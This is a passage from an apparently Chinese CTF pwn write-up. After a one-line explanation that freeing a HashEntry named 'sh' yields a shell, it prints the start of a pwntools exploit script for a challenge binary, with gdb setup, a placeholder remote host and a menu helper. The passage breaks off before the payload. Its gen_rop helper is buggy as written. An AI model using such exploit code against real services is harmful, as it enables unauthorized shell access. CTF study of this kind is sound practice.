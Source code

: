 然后新建一个 HashEntry，把 entryName 设置成"sh"， 然后 free 这个 HashEntry 就能 getshell 了。



### 利用代码

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re
context(arch='amd64', os='linux', log_level='debug')
context(terminal=['gnome-terminal', '-x', 'bash', '-c'])

def __get_base(p, _path):
    _vmmap = open('/proc/%d/maps' % p.proc.pid).read()
    _regex = '^.* r-xp .* {}$'.format(_path)
    _line = [_ for _ in _vmmap.split('\n') if re.match(_regex, _)][0]
    return int(_line.split('-')[0], 16)

def gen_rop(func_addr, args):
    """
    automate generate rop function
    _gadgets array contains gadgets address for 0,1,2,... args
    """
    _gadgets = []
    rop = ""
    rop += p32(func_addr)
    if len(args) > 1:
        rop += _gadgets[len(args)]
        for arg in args:
            rop += p32(args)
    return rop


_program = 'pwn2'
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    os.environ['LD_PRELOAD'] = ''
    libc = ELF('./libc.so.6')
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _bps = [] #breakpoints defined by yourself, not absolute addr, but offset addr of the program's base addr
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
        else:
            _source = 'source peda-session-%s.txt' % _program
        gdb.attach(p.proc.pid, execute=_source)
else:
    libc = ELF('./libc6-i386_2.19-0ubuntu6.9_amd64.so') #todo
    p = remote('8.8.8.8', 4002)	#todo

def new_hash(hash_type, name, code):
    p.sendlineafter("option", str(1))
    p.sendlineafter("hash type", hash_type)
    p.sendlineafter("entry name", name)
```